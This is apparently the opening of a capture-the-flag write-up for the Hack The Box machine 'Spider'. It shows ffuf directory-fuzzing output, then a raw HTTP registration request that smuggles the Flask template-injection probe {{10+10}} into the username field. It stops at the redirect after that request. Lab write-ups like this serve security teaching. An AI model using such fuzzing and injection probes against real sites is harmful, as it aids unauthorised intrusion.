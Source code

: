 ```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://spider.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Extensions       : .php .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

login                   [Status: 200, Size: 1832, Words: 442, Lines: 78]
logout                  [Status: 302, Size: 209, Words: 22, Lines: 4]
register                [Status: 200, Size: 2130, Words: 551, Lines: 86]
user                    [Status: 302, Size: 219, Words: 22, Lines: 4]
view                    [Status: 302, Size: 219, Words: 22, Lines: 4]
:: Progress: [81876/81876] :: Job [1/1] :: 543 req/sec :: Duration: [0:03:20] :: Errors: 0 ::
```
Got few endpoints. /register looks intresting at first so let's go there and create a account.
Loggin in we can see it is a shop.
Registering the user we can see that /user endpoint reflects the username for us so we can try SSTI on it.
### SSTI
We can try flask SSTI as we could see that the cookie is flask token so let's try that.
#### Verification
```bash
POST /register HTTP/1.1
Host: spider.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: http://spider.htb
Connection: close
Referer: http://spider.htb/register
Cookie: session=
Upgrade-Insecure-Requests: 1


username=%7B%7B10+%2B+10%7D%7D&confirm_username=%7B%7B10%2B10%7D%7D&password=oops&confirm_password=oops
```
registering an account with username {{10+10}}.
We Got redirected to
```bash
GET /login?uuid=ff5af298-10c6-4177-9b5e-7761a4f0dc24 HTTP/1.1
Host: spider.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
```